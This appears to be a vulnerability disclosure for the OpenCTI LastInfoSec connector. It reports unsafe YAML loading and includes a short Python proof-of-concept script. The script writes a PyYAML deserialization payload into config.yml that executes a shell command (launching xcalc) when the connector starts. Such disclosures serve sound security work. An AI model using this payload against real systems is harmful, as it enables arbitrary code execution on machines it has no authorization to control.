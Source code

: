 # Description

`OpenCTI connectors` is used to store the OpenCTI connectors for the platform integration with other tools and applications. `OpenCTI LastInfoSec connector` is using the /v2/stix21/getlasthour API, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/OpenCTI-Platform/connectors
```

### Run exploit.py
```
import os
#os.sysem('git clone https://github.com/OpenCTI-Platform/connectors')
os.chdir('connectors/lastinfosec/src')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('python lastinfosec.py')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
